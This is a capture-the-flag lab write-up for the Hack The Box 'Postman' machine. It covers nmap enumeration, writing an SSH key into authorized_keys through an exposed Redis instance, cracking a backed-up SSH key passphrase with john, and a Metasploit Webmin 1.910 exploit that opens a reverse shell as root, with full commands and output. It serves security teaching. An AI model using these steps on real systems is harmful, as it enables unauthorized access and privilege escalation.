

# Postman

<table>
  <tr>
    <td style="text-align:right;"><b>OS</b></td>
    <td>Linux</td>
  </tr>
  <tr>
    <td style="text-align:right;"><b>Difficulty</b></td>
    <td>Easy</td>
  </tr>
  <tr>
    <td style="text-align:right;"><b>Points</b></td>
    <td>20</td>
  </tr>
  <tr>
    <td style="text-align:right;"><b>Release</b></td>
    <td>02 Nov 2019</td>
  </tr>
  <tr>
    <td style="text-align:right;"><b>IP</b></td>
    <td>10.10.10.160</td>
  </tr>
</table>

## Foothold

To begin, we will add the entry `10.10.10.160 postman.htb` to `/etc/hosts` and then start scanning.

```
# nmap -sC -sV -T5 postman.htb
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-22 15:14 EDT
Nmap scan report for postman.htb (10.10.10.160)
Host is up (0.040s latency).
Not shown: 996 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 46:83:4f:f1:38:61:c0:1c:74:cb:b5:d1:4a:68:4d:77 (RSA)
|   256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
|_  256 ca:7c:82:aa:5a:d3:72:ca:8b:8a:38:3a:80:41:a0:45 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Cyber Geek's Personal Website
8000/tcp  open  caldav  Radicale calendar and contacts server (Python BaseHTTPServer)
|_http-title: Directory listing for /
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We see that SSH and HTTP are open as well as two additional ports. After doing an additional port scan on all ports on the machine, we see there is another port open.

```
# nmap -p- postman.htb
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-22 15:15 EDT
Nmap scan report for postman.htb (10.10.10.160)
Host is up (0.039s latency).
Not shown: 65530 closed ports
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
6379/tcp  open  redis
8000/tcp  open  http-alt
10000/tcp open  snet-sensor-mgmt

# nmap -sC -sV -p 6379 postman.htb
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-22 15:18 EDT
Nmap scan report for postman.htb (10.10.10.160)
Host is up (0.035s latency).

PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 4.0.9
```

Now that we know what is open, we can begin to enumerate the services. First, we will look at the website on port 80 by browsing to `postman.htb`.


We see that this is just a basic website and directory scanning reveals nothing of interest. When browsing `postman.htb:8000` we see it is a directory listing for another service and also provides nothing of interest. If we look at `postman.htb:10000` we get an SSL error and try again at `https://postman.htb:10000` and see a login page for Webmin.


Default credentials such as `admin:admin`, `postman:postman`, etc. did not work and RCE exploits for Webmin all require some form of authentication. We will keep this in mind later when we start to obtain some credentials.

The last thing to explore is the redis instance. To interact with it, we can use the `redis-cli` tool and begin to gather information.

```
# redis-cli -h postman.htb
postman.htb:6379> set key test
OK
postman.htb:6379> get key
"test"
postman.htb:6379> config get dir
1) "dir"
2) "/var/lib/redis/.ssh"
```

From this, we see that we are able to write arbitrary data and also note an interesting SSH directory. We can reason that we might be able to drop our key into this directory and then SSH as the redis user. Redis' creator and security researcher, antirez, [wrote a post about redis security](http://antirez.com/news/96) where he directly mentions this idea and has a simple proof of concept. 

In order to get unauthorized SSH access via the redis instance, we have to create an SSH key and prepare it to be dumped into the database.

```
# ssh-keygen -t rsa -C "eelz@postman.htb"
...
# (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > key.txt
# cat key.txt | redis-cli -h postman.htb -x set key
OK
# redis-cli -h postman.htb
postman.htb:6379> config set dir /var/lib/redis/.ssh
OK
postman.htb:6379> config set dbfilename "authorized_keys"
OK
postman.htb:6379> save
OK
```

Now that the key is appended to the authorized keys file, we can use our key to SSH in.

```
# ssh -i id_rsa redis@postman.htb
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Sun Mar 22 18:56:43 2020 from 10.10.15.142
redis@Postman:~$
```

From here, we can conduct more enumeration and pivot to other users.

## User

With a quick directory listing, we see there is one user, Matt.

```
redis@Postman $ ls -la /home
total 12
drwxr-xr-x  3 root root 4096 Sep 11  2019 .
drwxr-xr-x 22 root root 4096 Aug 25  2019 ..
drwxr-xr-x  6 Matt Matt 4096 Sep 11  2019 Matt
```

There is nothing besides the flag in his home directory so we will have to do more searching. We eventually see there is a backup file of his private SSH key that is readable by everyone.

```
redis@Postman:~$ ls -la /opt
total 12
drwxr-xr-x  2 root root 4096 Sep 11  2019 .
drwxr-xr-x 22 root root 4096 Aug 25  2019 ..
-rwxr-xr-x  1 Matt Matt 1743 Aug 26  2019 id_rsa.bak
```

We can use the tool `ssh2john` in order to create a hash of this file and then use `john` in order to crack the password. With this, we will be able to SSH as Matt.

```
# ssh2john id_rsa.bak > hash.txt
# john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 8 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
computer2008     (id_rsa.bak)
Warning: Only 2 candidates left, minimum 8 needed for performance.
1g 0:00:00:04 DONE (2020-03-22 15:47) 0.2450g/s 3515Kp/s 3515Kc/s 3515KC/sa6_123..*7¡Vamos!
Session completed

# ssh -i id_rsa.bak Matt@postman.htb
Enter passphrase for key 'id_rsa.bak': 
Connection closed by 10.10.10.160 port 22
```

We've got Matt's password, `computer2008`, but can't log in! We see that we have the correct password but the connection is immediately closed. Various tricks do not work in logging in as him but since we have access to the machine, we can view the configuration file and check for trickery.

```
redis@Postman:~$ cat /etc/ssh/sshd_config
...
#deny users
DenyUsers Matt
...
```

We see that we are explicitly not able to SSH as Matt. Luckily, since we have remote access, we can switch to Matt's account locally and read the flag.

```
redis@Postman:~$ su Matt
Password: 
Matt@Postman:/var/lib/redis$ cd
Matt@Postman:~$ cat user.txt 
517ad0**************************
```

## Root

Now that we have Matt's credentials, we need to elevate ourselves to the root user. Going back to the Webmin login, we use Matt's credentials and are able to login.



We see that the Webmin version is 1.910 and we can further view exploits to see which fits best. The particular exploit we will use it `exploit/linux/http/Webmin_packageup_rce`:

> Description:
  This module exploits an arbitrary command execution vulnerability in 
  Webmin 1.910 and lower versions. Any user authorized to the "Package Updates" module can execute arbitrary commands with root privileges.

If Matt is part of the "Package Updates" module, we will be able to get a reverse shell as root and be able to read the flag.

```
msf5 > use exploit/linux/http/Webmin_packageup_rce
msf5 exploit(linux/http/Webmin_packageup_rce) > set LHOST 10.10.14.54
LHOST => 10.10.14.54
msf5 exploit(linux/http/Webmin_packageup_rce) > set RHOST postman.htb
RHOST => postman.htb
msf5 exploit(linux/http/Webmin_packageup_rce) > set USERNAME Matt
USERNAME => Matt
msf5 exploit(linux/http/Webmin_packageup_rce) > set PASSWORD computer2008
PASSWORD => computer2008
msf5 exploit(linux/http/Webmin_packageup_rce) > set SSL true
SSL => true
msf5 exploit(linux/http/Webmin_packageup_rce) > exploit

[*] Started reverse TCP handler on 10.10.14.54:4444 
[+] Session cookie: d7c9f0b81683e4db959da275e60a1a30
[*] Attempting to execute the payload...
[*] Command shell session 1 opened (10.10.14.54:4444 -> 10.10.10.160:36766)

whoami
root
cat /root/root.txt
a25774**************************
```
